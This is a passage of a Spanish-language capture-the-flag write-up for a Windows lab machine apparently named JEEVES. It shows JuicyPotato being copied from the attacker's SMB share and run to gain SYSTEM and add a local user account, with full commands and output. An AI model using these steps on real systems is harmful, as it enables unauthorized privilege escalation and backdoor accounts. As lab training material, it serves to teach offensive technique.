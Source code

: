 Aquí puedes encontrarlo <https://github.com/ohpe/juicy-potato/releases/tag/v0.1>

Vamos a pasarlo ala maquina victima pero en la ruta `C:\Windows\Temp` y nos vamos a crear una carpeta para almacenarlo hay

```bash
mkdir Prives

cd Prives
cd Prives

C:\Windows\Temp\Prives>
```

```bash
copy \\10.10.14.12\parrotsec\JuicyPotato.exe JuicyPotato.exe
        1 file(s) copied.

C:\Windows\Temp\Prives>
```

```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Windows\Temp\Prives

07/03/2023  02:59 AM    <DIR>          .
07/03/2023  02:59 AM    <DIR>          ..
07/02/2023  09:50 PM           347,648 JuicyPotato.exe
               1 File(s)        347,648 bytes
               2 Dir(s)   2,407,399,424 bytes free

C:\Windows\Temp\Prives>
```

Vamos agregar un nuevo usuario 

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user miguel miguel123$! /add" -l 1337
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user miguel miguel123$! /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

```bash
net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  miguel                   
The command completed successfully.


C:\Windows\Temp\Prives>
```
